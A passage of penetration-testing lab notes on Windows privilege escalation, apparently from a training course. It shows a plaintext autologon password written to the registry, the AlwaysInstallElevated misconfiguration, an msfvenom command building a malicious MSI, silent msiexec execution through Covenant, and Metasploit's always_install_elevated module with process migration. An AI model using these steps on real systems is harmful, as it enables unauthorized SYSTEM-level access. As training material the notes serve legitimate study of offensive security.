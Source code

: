 								- `String Value`
									- `DefaultUserName`
										- `s.chisholm`
									- `DefaultPassword`
										- `FallOutBoy1!`
									- `DefaultDomainName`
										- `mayorsec`
- Restart the machine

### AlwaysInstallElevated Misconfiguration and Exploitation with Covenant
- **System level privileges**
- Go to `Registry Editor`
	- `HKEY_LOCAL_MACHINE
		- `SOFTWARE`
			- `Polcies`
				- `Microsoft`
					- Right click: `Windows` and create a *key* named `Installer`
					- `New`
						- `Key`
							- `Installer`
					- Right click: `Installer` and create a `32-bit DWORD` *value* called `AlwaysInstallElevated`
						- `New`
							- `32-bit DWORD`
								- `AlwaysInstallElevated`
									- Set `Value Data:`
										- `1`
	- Follow the same instructions for:
		- `HKEY_CURRENT_USER`
- On kali machine:
	- `msfvenom -p windows/exec CMD="insert EncodedLaunder here" -f msi -o MayorSecInstaller.msi`
		- Ensure you using DotNetVersion: `Net35`
- In `Covenant`:
	- `upload C:\Users\Public\test2.msi`
	- `ChangeDirectory C:\Users\Public`
	- Verify the file is in the directory
		- `ls`
	- `shell msiexec /quiet /qn /i test2.msi`

### AlwaysInstallElevated Misconfiguration and Exploitation with Metasploit
- **System level privileges**
- Reference the below link for initial shell creation
	- [[ Email Phishing With Metasploit and *.hta* File Extension]]
- `run post/multi/recon/local_exploit_suggester`
-  Press `CTRL-z` to background session
- `use exploit/windows/local/always_install_elevated`
	- `sessions`
	- `set session 2` **or whatever session id your shell is in**
	- `exploit -j` **runs exploit in background**
![image](https://0xc0rvu5.github.io/docs/assets/images/20221124160457.png)
- `sessions -i 3`
- `ps`
- `migrate 596`
	- This is `winlogon.exe` which is not a viable choice if there are multiple users in the environment
